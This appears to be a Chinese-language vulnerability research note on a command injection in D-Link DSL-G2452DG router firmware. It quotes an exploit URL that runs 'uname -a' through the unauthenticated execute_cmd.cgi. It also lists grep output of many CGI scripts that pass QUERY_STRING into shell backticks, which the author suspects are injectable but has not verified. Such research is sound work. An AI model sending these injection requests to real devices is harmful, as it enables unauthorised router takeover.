

来源于这里

```
https://github.com/1759134370/iot/blob/main/D-LINK/DSL-G2452DG
```


CVE也只有1个：

完全可以来再看看。


但这个环境fat.py貌似又不行，不能弄出网卡来。。。

---

先复现。


# `execute_cmd.cgi`命令注入

在  www/cgi-bin下找到`execute_cmd.cgi`，




只要能控制`QUERY_STRING`即可命令执行


看作者的exp，可以直接访问这个cgi。。。

```
payload= http://XXX/cgi-bin/execute_cmd.cgi?taa=ssss&aa=%20uname%20-a 
```

其实就是执行`uname -a`。


甚至不用找web端的调用。。。可以直接访问。。。

逆天。。。


按这个思路，grep -r 搜索 QUERY_STRING，还能找到这么多：

```bash
iot@attifyos ~/D/I/_/j/fs_1> grep -r QUERY_STRING
Binary file usr/sbin/uhttpd matches
www/cgi-bin/download_log.cgi:level=`echo ${QUERY_STRING} | cut -d = -f 2`
www/cgi-bin/cat_log.cgi:level=`echo ${QUERY_STRING} | cut -d = -f 3`
www/cgi-bin/active_inform.cgi:local action=`echo ${QUERY_STRING} | cut -d = -f 3 | cut -d ? -f 1`
www/cgi-bin/getusbtree.cgi:local id=`echo ${QUERY_STRING} | cut -d = -f 3 | cut -d ? -f 1`
www/cgi-bin/getusbtree.cgi:local path=`echo ${QUERY_STRING} | cut -d = -f 4 | cut -d ? -f 1`
Binary file www/cgi-bin/main.cgi matches
www/cgi-bin/wps_operate.cgi:type=$(parse ${QUERY_STRING} "action")
www/cgi-bin/wps_operate.cgi:index=$(parse ${QUERY_STRING} "index")
www/cgi-bin/wps_operate.cgi:echo ${QUERY_STRING} ${type} ${index} > /tmp/wps_cgi
www/cgi-bin/wps_operate.cgi:		pin=$(parse ${QUERY_STRING} "value")
www/cgi-bin/wps_operate.cgi:		branch=$(parse ${QUERY_STRING} "value")
www/cgi-bin/config_download.cgi:action=`echo ${QUERY_STRING} | cut -d = -f 2`
www/cgi-bin/QSPage1.cgi:provider=`echo "${QUERY_STRING}" | cut -d ? -f 2`
www/cgi-bin/mirror.cgi:type=`echo ${QUERY_STRING} | cut -d = -f 3 | cut -d ? -f 1`
www/cgi-bin/mirror.cgi:	mode=`echo ${QUERY_STRING} | cut -d = -f 4 | cut -d ? -f 1`
www/cgi-bin/mirror.cgi:	sPort=`echo ${QUERY_STRING} | cut -d = -f 5 | cut -d ? -f 1`
www/cgi-bin/mirror.cgi:	dPort=`echo ${QUERY_STRING} | cut -d = -f 6 | cut -d ? -f 1`
www/cgi-bin/QSPage5.cgi:local parameterNum=`echo "${QUERY_STRING}" | grep -o ? | wc -l`
www/cgi-bin/QSPage5.cgi:	local useLevel=`echo "${QUERY_STRING}" | cut -d ? -f 2`
www/cgi-bin/QSPage5.cgi:	local webPassword_realtext=`echo "${QUERY_STRING}" | cut -d ? -f 3`
www/cgi-bin/QSPage5.cgi:	local webPassword=`echo "${QUERY_STRING}" | cut -d ? -f 4`
www/cgi-bin/QSPage5.cgi:	FPath=`echo "${QUERY_STRING}" | cut -d ? -f ${index}`
www/cgi-bin/QSPage3.cgi:	 parameterNum=`echo "${QUERY_STRING}" | grep -o ? | wc -l`
www/cgi-bin/QSPage3.cgi:		 Wireless24g=`echo "${QUERY_STRING}" | cut -d ? -f 2`
www/cgi-bin/QSPage3.cgi:		 Wireless24gSSID=`echo "${QUERY_STRING}" | cut -d ? -f 3`
www/cgi-bin/QSPage3.cgi:		 Wireless24gPassphrase=`echo "${QUERY_STRING}" | cut -d ? -f 4`
www/cgi-bin/QSPage3.cgi:		 Wireless5g=`echo "${QUERY_STRING}" | cut -d ? -f 5`
www/cgi-bin/QSPage3.cgi:		 Wireless5gSSID=`echo "${QUERY_STRING}" | cut -d ? -f 6`
www/cgi-bin/QSPage3.cgi:		 Wireless5gPassphrase=`echo "${QUERY_STRING}" | cut -d ? -f 7`
Binary file www/cgi-bin/execute_cmd.cgi matches
www/cgi-bin/QSPage2.cgi:parameterNum=`echo "${QUERY_STRING}" | grep -o ? | wc -l`
www/cgi-bin/QSPage2.cgi:		Vlan_ID=`echo "${QUERY_STRING}" | cut -d ? -f 20`
www/cgi-bin/QSPage2.cgi:		newWAN1=`echo "${QUERY_STRING}" | cut -d ? -f 16`
www/cgi-bin/QSPage2.cgi:		newWAN2=`echo "${QUERY_STRING}" | cut -d ? -f 17`
www/cgi-bin/QSPage2.cgi:		newWAN3=`echo "${QUERY_STRING}" | cut -d ? -f 18`
www/cgi-bin/QSPage2.cgi:		newWAN4=`echo "${QUERY_STRING}" | cut -d ? -f 19`
www/cgi-bin/QSPage2.cgi:	WANmode=`echo "${QUERY_STRING}" | cut -d ? -f 2`
www/cgi-bin/QSPage2.cgi:	INPUT_UserName=`echo "${QUERY_STRING}" | cut -d ? -f 3`
www/cgi-bin/QSPage2.cgi:	INPUT_Password=`echo "${QUERY_STRING}" | cut -d ? -f 4`
www/cgi-bin/QSPage2.cgi:	INPUT_IPv6=`echo "${QUERY_STRING}" | cut -d ? -f 5`
www/cgi-bin/QSPage2.cgi:	INPUT_Static_IP=`echo "${QUERY_STRING}" | cut -d ? -f 6`
www/cgi-bin/QSPage2.cgi:	INPUT_UnnumberLanIP=`echo "${QUERY_STRING}" | cut -d ? -f 7`
www/cgi-bin/QSPage2.cgi:	INPUT_UnnumberPPPIP=`echo "${QUERY_STRING}" | cut -d ? -f 8`
www/cgi-bin/QSPage2.cgi:	INPUT_Subnet=`echo "${QUERY_STRING}" | cut -d ? -f 9`
www/cgi-bin/QSPage2.cgi:	INPUT_StartIP=`echo "${QUERY_STRING}" | cut -d ? -f 10`
www/cgi-bin/QSPage2.cgi:	INPUT_StopIP=`echo "${QUERY_STRING}" | cut -d ? -f 11`
www/cgi-bin/QSPage2.cgi:	PrimaryDns=`echo "${QUERY_STRING}" | cut -d ? -f 12`
www/cgi-bin/QSPage2.cgi:	SecondaryDns=`echo "${QUERY_STRING}" | cut -d ? -f 13`
www/cgi-bin/QSPage2.cgi:	VoIPOnLan3=`echo "${QUERY_STRING}" | cut -d ? -f 14`
www/cgi-bin/QSPage2.cgi:	IPTVOnLan4=`echo "${QUERY_STRING}" | cut -d ? -f 15`
Binary file www/cgi-bin/setup.cgi matches
www/cgi-bin/QSPage4.cgi:	 parameterNum=`echo "${QUERY_STRING}" | grep -o ? | wc -l`
www/cgi-bin/QSPage4.cgi:		 INPUT_VoIP1=`echo "${QUERY_STRING}" | cut -d ? -f 2`
www/cgi-bin/QSPage4.cgi:		 INPUT_VoIP1UserName=`echo "${QUERY_STRING}" | cut -d ? -f 3`
www/cgi-bin/QSPage4.cgi:		 INPUT_VoIP1PassWord=`echo "${QUERY_STRING}" | cut -d ? -f 4`
www/cgi-bin/QSPage4.cgi:		 INPUT_VoIP2=`echo "${QUERY_STRING}" | cut -d ? -f 5`
www/cgi-bin/QSPage4.cgi:		 INPUT_VoIP2UserName=`echo "${QUERY_STRING}" | cut -d ? -f 6`
www/cgi-bin/QSPage4.cgi:		 INPUT_VoIP2PassWord=`echo "${QUERY_STRING}" | cut -d ? -f 7`	
www/cgi-bin/usb_backup_restore.cgi:action=`echo ${QUERY_STRING} | cut -d = -f 3 | cut -d ? -f 1`
www/cgi-bin/usb_backup_restore.cgi:mnt_name=`echo ${QUERY_STRING} | cut -d = -f 4 | cut -d ? -f 1`
www/cgi-bin/usb_backup_restore.cgi:sta_path=`echo ${QUERY_STRING} | cut -d = -f 5 | cut -d ? -f 1`
www/cgi-bin/usb_backup_restore.cgi:restore_enable=`echo ${QUERY_STRING} | cut -d = -f 6 | cut -d ? -f 1`
```


等仿真弄好了就来验证。感觉带着echo + 反引号的都行。

